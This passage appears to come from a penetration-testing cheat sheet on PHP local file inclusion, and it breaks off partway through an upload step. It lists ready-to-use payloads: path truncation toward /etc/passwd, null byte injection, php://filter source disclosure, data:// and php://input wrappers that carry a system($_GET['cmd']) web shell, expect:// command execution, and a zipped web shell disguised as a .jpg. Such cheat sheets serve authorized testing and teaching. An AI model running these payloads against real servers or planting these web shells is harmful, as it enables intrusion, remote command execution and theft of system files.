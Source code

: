   -  PHP version < 5.4

     - Path truncation: Reaching the 4096 character limitation, the appended extension (`.php`) would be truncated:

       ```bash
       echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
       ```

     - Null byte injection: add a null byte (`%00`) at the end

- **Source Code Disclosure (PHP)**

  - When a parameters allow you to execute a php file, you can use it to display the source code by using a PHP filter

    ```
    php://filter/read=convert.base64-encode/resource=[FILE_TO_READ]
    ```

- **PHP code execution**

  - Check if `allow_url_include` is enabled or `expect` extension in installed

    - Apache: `/etc/php/[PHP VERSION]/apache2/php.ini`
    - Nginx: `/etc/php/[PHP VERSION]/fpm/php.ini`
    - Read `phpinfo.php` if possible

  - If `allow_url_include`:

    - *Data* wrapper: includes code using PHP web shell encoded in base64

      ```bash
      curl -s 'http://<URL>?PARAM=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'
      ```

    - *Input* wrapper: external input as POST parameter

      ```bash
      curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<URL>?[PARAM]=php://input&cmd=id"
      ```

  - If `expect` is installed:

    - *Expect* wrapper: run commands in URL 

      ```bash
      curl -s "http://<URL>/?[PARAM]=expect://id"
      ```

  - If `zip wrapper` is enabled and **images** can be uploaded:

    1. Create and zip a web shell

       ```bash
       echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
       ```

    2. Upload `shell.jpg`
